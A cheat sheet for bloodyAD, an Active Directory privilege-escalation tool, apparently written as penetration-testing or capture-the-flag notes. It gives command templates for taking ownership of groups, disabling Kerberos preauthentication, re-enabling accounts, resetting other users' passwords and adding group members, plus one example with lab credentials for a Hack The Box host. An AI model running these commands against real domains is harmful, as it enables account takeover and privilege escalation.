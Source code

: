 # bloodyAD

## Overview

This tool can perform specific LDAP calls to a domain controller in order to perform AD privesc.

bloodyAD supports authentication using cleartext passwords, pass-the-hash, pass-the-ticket or certificates and binds to LDAP services of a domain controller to perform AD privesc.

Used to perform ldap queries

## Installation

pip install bloodyAD

## Usage

Set owener of group

    bloodyAD --host <host_ip> -d '<domain_name>' -u '<username>' -p '<password>' set owner <group_name> <name_of_new_owner>

Set dont_req_preauth

    bloodyAD --host <dc_controller_name> -d "domain_name" --dc-ip <domain_controller_ip> -k add uac <username_of_target_account> -f DONT_REQ_PREAUTH


Enable an account

    bloodyAD --host <dc_controller_name> -d "domain_name" --dc-ip <domain_controller_ip> -k remov uac <username_of_target_account> -f ACCOUNTDISABLE

Change Set Password

    bloodyAD --host <dc_controller_name> -d "domain_name" --dc-ip <domain_controller_ip> -k set password <username_target> '<new_password>'


### ADD

Add user to group:

```shell
bloodyAD --host $dc -d $domain -u $username -p $password add groupMember $group_name $member_to_add
```

### GET

Get groups a user belong:

```shell
bloodyAD --host [host_ip] -d [domain_name] -u '[user_name]' -p '[user_password]' get membership '[target_user_name]'
```

Get ad object:

```shell
bloodyAD --host haze.htb -d 'haze.tb' -u 'mark.adams' -p 'Ld@p_Auth_Sp1unk@2k24' get object "CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb"
```

### SET

Change a users password:

```shell
bloodyAD --host [host_ip] -d [domain_name] -u '[user_name]' -p '[user_password]' set password '[target_user_name]' '[new_password]'
```

### REMOVE

Enable a disabled account:

```shell
bloodyAD --host [host_ip] -d [domain_name] -u '[user_name]' -p '[user_password]' remove uac '[target_user_name]' -f ACCOUNTDISABLE
```

## More Information

https://github.com/CravateRouge/bloodyAD/wiki/User-Guide
https://seriotonctf.github.io/2024/12/01/BloodyAD-Cheatsheet/index.html